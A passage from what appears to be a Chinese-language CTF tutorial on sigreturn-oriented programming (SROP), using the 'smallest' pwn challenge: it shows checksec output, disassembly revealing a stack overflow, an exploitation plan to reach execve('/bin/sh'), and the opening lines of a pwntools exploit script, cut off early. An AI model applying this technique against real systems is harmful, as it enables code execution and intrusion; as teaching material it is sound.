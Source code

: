 ### 利用工具

**值得一提的是，在目前的pwntools中已经集成了对于srop的攻击。**

### 示例

这里以360春秋杯中的smallest-pwn为例进行简单介绍。基本步骤如下

**确定文件基本信息**

```text
➜  smallest file smallest     
smallest: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, stripped
```

可以看到该程序为64位静态链接版本。

**检查保护**

```text
➜  smallest checksec smallest     
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

程序主要开启了NX保护。

**漏洞发现**

实用IDA直接反编译看了一下，发现程序就几行汇编代码，如下

```asm
public start
start proc near
xor     rax, rax
mov     edx, 400h
mov     rsi, rsp
mov     rdi, rax
syscall
retn
start endp
```

根据syscall的编号为0，可以知道改程序执行的指令为read(0,$rsp,400)，即向栈顶读入400个字符。毫无疑问，这个是有栈溢出的。

**利用思路**

由于程序中并没有sigreturn调用，所以我们得自己构造，正好这里有read函数调用，所以我们可以通过read函数读取的字节数来设置rax的值。重要思路如下

- 通过控制read读取的字符数来设置RAX寄存器的值，从而执行sigreturn
- 通过syscall执行execve("/bin/sh",0,0)来获取shell。

**漏洞利用程序**

```python
from pwn import *
from LibcSearcher import *
small = ELF('./smallest')
if args['REMOTE']:
    sh = remote('127.0.0.1', 7777)
else:
    sh = process('./smallest')
context.arch = 'amd64'
context.log_level = 'debug'
syscall_ret = 0x00000000004000BE
start_addr = 0x00000000004000B0
## set start addr three times
payload = p64(start_addr) * 3
sh.send(payload)
```
